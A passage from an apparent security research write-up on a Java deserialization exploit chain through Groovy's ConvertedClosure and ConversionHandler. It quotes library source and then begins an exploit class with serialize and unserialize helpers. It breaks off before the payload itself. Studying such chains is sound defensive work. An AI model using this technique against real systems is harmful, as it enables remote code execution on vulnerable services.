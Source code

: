 ```java
public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
    VMPlugin plugin = VMPluginFactory.getPlugin();
    if (plugin.getVersion() >= 7 && this.isDefaultMethod(method)) {
        ......
    } else if (!this.checkMethod(method)) {
        try {
            return this.invokeCustom(proxy, method, args);
        } catch (GroovyRuntimeException var6) {
            throw ScriptBytecodeAdapter.unwrap(var6);
        }
    } else {
        ......
    }
}
```

```java
public class ConvertedClosure extends ConversionHandler implements Serializable {
    ......
    public Object invokeCustom(Object proxy, Method method, Object[] args) throws Throwable {
        return this.methodName != null && !this.methodName.equals(method.getName()) ? null : ((Closure)this.getDelegate()).call(args);
    }
}
```

## EXP
```java
package org.h3rmesk1t.Groovy;

import org.codehaus.groovy.runtime.ConvertedClosure;
import org.codehaus.groovy.runtime.MethodClosure;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/12 2:01 下午
 */
public class GroovyExploit {

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
```